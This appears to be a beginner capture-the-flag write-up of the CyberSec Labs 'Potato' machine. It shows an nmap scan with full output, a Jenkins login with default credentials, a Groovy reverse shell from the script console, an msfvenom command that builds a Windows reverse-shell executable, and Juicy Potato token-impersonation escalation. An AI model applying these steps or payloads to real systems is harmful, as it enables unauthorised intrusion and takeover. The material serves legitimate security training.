





# Potato
- This Machine from Cyber Sec Labs Beginner Labs
- Name is Potato
- IP Address is 172.31.1.19 , This is Easy Machine
# Scanning (Nmap)
$ nmap -sSV -O -A -T4 -sC -oN potato.nmap -Pn 172.31.1.19
# Nmap 7.80 scan initiated Mon Sep 7 16:16:40 2020 as: nmap -sSV -O -A -T4 -sC -oN potato.nmap -Pn 172.31.1.19
Nmap scan report for 172.31.1.19
Host is up (0.29s latency).
Not shown: 989 closed ports
PORT STATE SERVICE VERSION
135/tcp open msrpc Microsoft Windows RPC
139/tcp open netbios-ssn Microsoft Windows netbios-ssn
445/tcp open microsoft-ds Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
3389/tcp open ssl/ms-wbt-server?
| rdp-ntlm-info:
| Target_Name: POTATO
| NetBIOS_Domain_Name: POTATO
| NetBIOS_Computer_Name: POTATO
| DNS_Domain_Name: Potato
| DNS_Computer_Name: Potato
| Product_Version: 6.3.9600
|_ System_Time: 2020-09-07T09:45:56+00:00
| ssl-cert: Subject: commonName=Potato
| Not valid before: 2020-05-15T13:18:41
|_Not valid after: 2020-11-14T13:18:41
8080/tcp open http Jetty 9.4.z-SNAPSHOT
| http-robots.txt: 1 disallowed entry
|_/
|_http-server-header: Jetty(9.4.z-SNAPSHOT)
|_http-title: Site doesn't have a title (text/html;charset=utf-8).
49152/tcp open msrpc Microsoft Windows RPC
49153/tcp open msrpc Microsoft Windows RPC
49154/tcp open msrpc Microsoft Windows RPC
49155/tcp open msrpc Microsoft Windows RPC
49161/tcp open msrpc Microsoft Windows RPC
49163/tcp open msrpc Microsoft Windows RPC
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.80%E=4%D=9/7%OT=135%CT=1%CU=40440%PV=Y%DS=2%DC=T%G=Y%TM=5F565D6
OS:8%P=x86_64-unknown-linux-gnu)SEQ(SP=105%GCD=1%ISR=10B%TI=I%CI=RD%TS=7)OP
OS:S(O1=M54ENW8ST11%O2=M54ENW8ST11%O3=M54ENW8NNT11%O4=M54ENW8ST11%O5=M54ENW
OS:8ST11%O6=M54EST11)WIN(W1=2000%W2=2000%W3=2000%W4=2000%W5=2000%W6=2000)EC
OS:N(R=Y%DF=Y%T=80%W=2000%O=M54ENW8NNS%CC=Y%Q=)T1(R=Y%DF=Y%T=80%S=O%A=S+%F=
OS:AS%RD=0%Q=)T2(R=Y%DF=Y%T=80%W=0%S=Z%A=S%F=AR%O=%RD=0%Q=)T3(R=Y%DF=Y%T=80
OS:%W=0%S=Z%A=O%F=AR%O=%RD=0%Q=)T4(R=Y%DF=Y%T=80%W=0%S=A%A=O%F=R%O=%RD=0%Q=
OS:)T5(R=Y%DF=Y%T=80%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=80%W=0%S=A%
OS:A=O%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=80%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%
OS:DF=N%T=80%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=N)
Network Distance: 2 hops
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows
Host script results:
|_clock-skew: mean: -6h32m45s, deviation: 0s, median: -6h32m45s
|_nbstat: NetBIOS name: POTATO, NetBIOS user: , NetBIOS MAC: 0a:18:ae:90:dc:fc (unknown)
|_smb-os-discovery: ERROR: Script execution failed (use -d to debug)
| smb-security-mode:
| account_used: guest
| authentication_level: user
| challenge_response: supported
|_ message_signing: disabled (dangerous, but default)
| smb2-security-mode:
| 2.02:
|_ Message signing enabled but not required
| smb2-time:
| date: 2020-09-07T09:45:56
|_ start_date: 2020-09-07T09:42:16
TRACEROUTE (using port 21/tcp)
HOP RTT ADDRESS
1 286.39 ms 10.10.0.1
2 286.79 ms 172.31.1.19
# Web
nmap Result show http service is running at port 8080 , Let's check this
I type this ip address in browser , I saw this webpage
This is Jenkin Server , In this time I search at google jenkin default password admin:password
- I tried to login with this but it's not ok
- I tried with admin:admin , It's work , Login Successfully
I know this jenkins has a one feature , this is script console in the Manage Jenkin 
- We can run script from this console
This is Jenkins Server , we can execute groovy script on this server to get reverse shell
I used my own script to get groovy reverse shell script
- Boom . I got reverse shell

# Privileges Escalation
- I checked the privileges of this user with whoami /priv command
- In this time, we can see SeImpersonatePrivileges is Enable
- That mean , We can perform Token Impersonation attack
- We need to transfer juicy potato file on this attacking machine
- I used Python Simple httpserver and certutil command 
- I used msfvenom to create malicious exe file and I transfer this exe file into attacking machine
- Here my msfvenom command
$ msfvenom -p windows/shell_reverse_tcp lhost= lport=9003 -f exe -o shell.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of exe file: 73802 bytes
Saved as: exe
Finally We got nt authority Shell and Administrator Flag
Thank for reading , I hope you learn something :"(